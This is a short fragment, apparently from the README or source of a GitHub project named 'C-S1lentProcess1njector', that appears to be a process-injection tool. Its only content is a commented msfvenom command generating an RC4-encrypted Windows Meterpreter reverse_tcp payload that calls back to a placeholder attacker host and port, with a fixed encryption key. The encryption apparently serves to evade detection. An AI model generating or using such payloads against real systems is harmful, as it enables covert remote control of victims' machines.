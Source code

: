 # C-S1lentProcess1njector
    // msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=<host> LPORT=<port> RC4PASSWORD=<network_level_rc4_key> --encrypt rc4 --encrypt-key jqrargtcchvwovplxuggagcvnbjmzyhr
    
